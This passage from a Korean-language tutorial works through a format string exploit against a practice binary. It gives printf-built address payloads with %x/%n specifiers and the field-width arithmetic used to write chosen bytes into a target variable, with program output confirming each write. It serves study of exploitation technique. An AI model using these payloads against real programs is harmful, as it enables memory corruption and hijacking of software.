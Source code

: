 ```0x08049794```에는 ```0xAA``` 값을 넣고, ```0x08049795```에는 ```0xBB```, ```0x08049796```에는 ```0xCC```, ```0x08049797```에는 ```0xDD```를 넣어서 최종적으로
$(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\x97\x04\x08JUNK\x97\x97\x04\x08")
%x%x%8x%n


test_val = 0x08049794 = 52 0x00000034
```

<br>

테스트를 한 결과 8번의 공백을 넣어주면 총 길이가 52가 되므로 0xaa를 만들기 위해선 ```0xaa - 52 + 8 = 126```이므로 ```%8x```를 ```%126x```로 바꾸면 됨.

더 간단하게 계산하면 처음에  ```0x08049794```에 ```0xaa```를 넣어줄 때, 150을 사용하였으므로 현재 4바이트 값이 6개(주소 값 3개, JUNK 3개)가 늘어났으므로 ```150 - 24 = 126```임.

<br>

```console
./vuln 
$(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\x97\x04\x08JUNK\x97\x97\x04\x08")
%x%x%126x%n


test_val = 0x08049794 = 170 0x000000aa
```

<br>

그 다음 ```0xBB```를 넣어줘야 함. ```0xBB - 0xAA = 17```이므로 아래와 같이 입력하면 됨.

<br>

```console
./vuln 
$(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\x97\x04\x08JUNK\x97\x97\x04\x08")
%x%x%126x%n%17x%n


test_val = 0x08049794 = 48042 0x0000bbaa
```

<br>

세 번째와 네 번째도 동일하게 반복하면 됨. 

**여기서 알아둬야 할 점은 이 방법을 이용해 데이터를 덮어쓰는 메모리의 다음 3바이트도 덮어써진다는 점임.**

만약 정적 변수 next_val 변수가 선언돼있다면 next_val의 값도 점점 변하게 될 것임.

<br>
<br>
<br>
<br>

그런데 덮어쓰고자 하는 주소가 ```0xDDCCBBAA```가 아니라 ```0x0806abcd```라면 어떻게 해야 하는가?

첫 번째 바이트인 0xCD는 161의 필드 너비로 205바이트를 출력해야 함.

<br>
